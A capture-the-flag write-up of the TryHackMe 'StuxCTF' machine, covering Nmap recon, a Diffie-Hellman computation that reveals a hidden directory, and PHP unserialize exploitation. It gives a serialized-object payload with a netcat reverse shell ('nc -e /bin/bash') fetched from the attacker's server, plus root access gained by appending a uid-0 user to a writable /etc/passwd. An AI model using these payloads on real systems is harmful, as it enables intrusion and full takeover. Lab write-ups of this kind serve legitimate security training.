 ```yaml
---
title: StuxCTF 🧬
tags:
  - Linux
  - Python-Scripting
  - LFI
  - Decrypting
  - Crypto
---
```

![](Pasted%20image%2020240531202235.png)

> *Even though this is a "Medium" machine, I found it a bit hard*

I started performing an Nmap scan:

```shell
nmap -sC -T4 -p- 10.10.114.31 > sC.txt

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-31 19:16 CEST
Nmap scan report for 10.10.114.31
Host is up (0.049s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   2048 e8:da:b7:0d:a7:a1:cc:8e:ac:4b:19:6d:25:2b:3e:77 (RSA)
|   256 c1:0c:5a:db:6c:d6:a3:15:96:85:21:e9:48:65:28:42 (ECDSA)
|_  256 0f:1a:6a:d1:bb:cb:a6:3e:bd:8f:99:8d:da:2f:30:86 (ED25519)
80/tcp open  http
| http-robots.txt: 1 disallowed entry 
|_/StuxCTF/
|_http-title: Default Page

Nmap done: 1 IP address (1 host up) scanned in 22.50 seconds
```

So I decided to take a look at the webpage:

![](Pasted%20image%2020240531202432.png)

As I found this, I took a look to the source code:

![](Pasted%20image%2020240531202503.png)

Here I found what it seemed to be some kind of variables to solve a problem.

Checking the hint on THM it seemed like [Diffie-Hellman key exchange](https://en.wikipedia.org/wiki/Diffie%E2%80%93Hellman_key_exchange)

![](Pasted%20image%2020240531202649.png)

So I created the following script:

```python
p=9975298661930085086019708402870402191114171745913160469454315876556947370642799226714405016920875594030192024506376929926694545081888689821796050434591251
g=7
a=330
b=450
gc=6091917800833598741530924081762225477418277010142022622731688158297759621329407070985497917078988781448889947074350694220209769840915705739528359582454617
gca=(gc**a)%p
gcab=(gca**b)%p

print(gcab)
print(str(gcab)[:128])
```

Which gave me this directory: `47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055`

So I searched for it:

![](Pasted%20image%2020240531202831.png)

As I didn't detect anything with [dirsearch 📁](/notes/Tools/dirsearch.md), I decided to look at the source code:

![](Pasted%20image%2020240531202937.png)

It gave me the hint `<!-- hint: /?file= -->`, so it seemed like some kind of LFI

I tried to fuzz it and didn't work, so I put the unique file that is detected by **dirsearch**, which is `index.php` and searched for it: `http://10.10.114.31/47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055/?file=index.php`

It printed some kind of hex code, which I decrypted using [Cyberchef](https://cyberchef.org/):

![](Pasted%20image%2020240531203241.png)

![](Pasted%20image%2020240531203322.png)

It was the script behind the `?file=`:

```html
<br />
error_reporting(0);<br />
class file {<br />
        public $file = "dump.txt";<br />
        public $data = "dump test";<br />
        function __destruct(){<br />
                file_put_contents($this->file, $this->data);<br />
        }<br />
}<br />
<br />
<br />
$file_name = $_GET['file'];<br />
if(isset($file_name) && !file_exists($file_name)){<br />
        echo "File no Exist!";<br />
}<br />
<br />
if($file_name=="index.php"){<br />
        $content = file_get_contents($file_name);<br />
        $tags = array("", "");<br />
        echo bin2hex(strrev(base64_encode(nl2br(str_replace($tags, "", $content)))));<br />
}<br />
unserialize(file_get_contents($file_name));<br />
<br />
<!DOCTYPE html><br />
    <head><br />
        <title>StuxCTF</title><br />
	<meta charset="UTF-8"><br />
        <meta name="viewport" content="width=device-width, initial-scale=1"><br />
        <link rel="stylesheet" href="assets/css/bootstrap.min.css" /><br />
        <link rel="stylesheet" href="assets/css/style.css" /><br />
    </head><br />
        <body><br />
        <nav class="navbar navbar-default navbar-fixed-top"><br />
          <div class="container"><br />
            <div class="navbar-header"><br />
              <button type="button" class="navbar-toggle collapsed" data-toggle="collapse" data-target="#navbar" aria-expanded="false" aria-controls="navbar"><br />
                <span class="sr-only">Toggle navigation</span><br />
              </button><br />
              <a class="navbar-brand" href="index.php">Home</a><br />
            </div><br />
          </div><br />
        </nav><br />
        <!-- hint: /?file= --><br />
        <div class="container"><br />
            <div class="jumbotron"><br />
				<center><br />
					<h1>Follow the white rabbit..</h1><br />
				</center><br />
            </div><br />
        </div>            <br />
        <script src="assets/js/jquery-1.11.3.min.js"></script><br />
        <script src="assets/js/bootstrap.min.js"></script><br />
    </body><br />
</html><br />
```

I analyzed it in search of some code vulnerability and I found that in `unserialize(file_get_contents($file_name));` the function `unserialize` let us to load any file on the Internet.
- I found [this documentation](https://notsosecure.com/remote-code-execution-php-unserialize) which explains more about this vulnerability

So, to gain RCE, I created the file `shell.php`:

```php
<?php
class file
{
 public $file = 'remote.php';
 public $data = '<?php shell_exec("nc -e /bin/bash YOUR_IP YOUR_PORT"); ?>';
}

echo (serialize(new file));

?>
```

Then I performed the following command:

```shell
php shell.php > shell.txt
```

After this I initialize a python server `python3 -m http.server 8090`

And then I search for my file (the `.txt` one) like: `view-source:10.10.114.31/47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055/?file=http://10.11.74.136:8090/shell.txt`

So once here, the file is uploaded and you can search it: `view-source:10.10.114.31/47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055/remote.php` 

> Take care of putting the name inside the php shell (in my case `remote.php`)

We've got a reverse shell:

![](Pasted%20image%2020240531204257.png)

And we found the user flag on the `/home/grecia` directory

![](Pasted%20image%2020240531204352.png)

I uploaded `linpeas` to scan for privilege escalation and found that the `/etc/passwd` was writable, so I did the following:

```
# On my machine
openssl passwd -1 -salt hacker hacker

# Then, on the /etc/passwd file I added at the end
hacker:$1$hacker$TzyKlv0/R/c28R.GAeLw.1:0:0:Hacker:/root:/bin/bash
```

![](Pasted%20image%2020240531204719.png)

After this, I logged in as the user `hacker` and got root access.

Got the root flag:

![](Pasted%20image%2020240531204821.png)

==Machine pwned==